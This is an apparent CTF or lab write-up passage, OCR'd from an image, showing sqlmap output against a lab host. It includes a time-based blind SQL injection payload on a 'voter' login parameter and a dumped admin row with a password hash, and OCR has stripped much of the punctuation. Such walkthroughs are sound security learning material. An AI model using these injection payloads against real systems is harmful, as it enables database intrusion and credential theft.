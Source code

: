       sqlmap  r login burp   batch   dump                                                                                                                                  

                                                                                                                                                                          

        H                                                                                                                                                                  

                  1 4 10 stable                                                                                                                                   

                                                                                                                                                                           

    legal disclaimer  Usage of sqlmap for attacking targets without prior mutual consent is illegal  It is the end user s responsibility to obey all applicable local  state

and federal laws  Developers assume no liability and are not responsible for any misuse or damage caused by this program                                                    

    starting   17 47 39  2021 05 26                                                                                                                                        

 17 47 39   INFO  parsing HTTP request from  login burp                                                                                                                    

 17 47 40   WARNING  provided value for parameter  login  is empty  Please  always use only valid parameter values so sqlmap could be able to run properly

 17 47 40   INFO  resuming back end DBMS  mysql 

 17 47 40   INFO  testing connection to the target URL                                                                                                                      

got a 302 redirect to  http   10 10 10 239 80 index php   Do you want to follow   Y n  Y

redirect is a result of a POST request  Do you want to resend original POST data to a new location   Y n  Y

sqlmap resumed the following injection point s  from stored session                  

                                                                                                                                                                            

Parameter  voter  POST                                                                                                                                                      

   Type  time based blind                                                          

   Title  MySQL    5 0 12 AND time based blind  query SLEEP 

   Payload  voter a  AND  SELECT 5793 FROM  SELECT SLEEP 5   bSGe  AND  YMSl   YMSl password a login 

      

Database  votesystem                                                                                                                                                        

Table  admin                                                                                                                                                                

 1 entry                                                                                                                                                                    

                                                                                                                                                                            

  id   photo    lastname   password                                                       username   firstname   created on                                                 

                                                                                                                                                                            

  1    nc exe   Devierte    2y 10 4E3VVe2PWlTMejquTmMD6 Og9RmmFN K5A1n99kHNdQxHePutFjsC   admin      Neovic      2018 04 02                                                 

                                                                                                                             
   endhighlight   

Using time based bline SQLi  sqlmap successfully retrieved the contents of the SQL server with the credentials of admin  However  admin s password is hashed using blowfish encryption which takes a long time to decrypt  and as it turns out admin s password is not in rockyou  
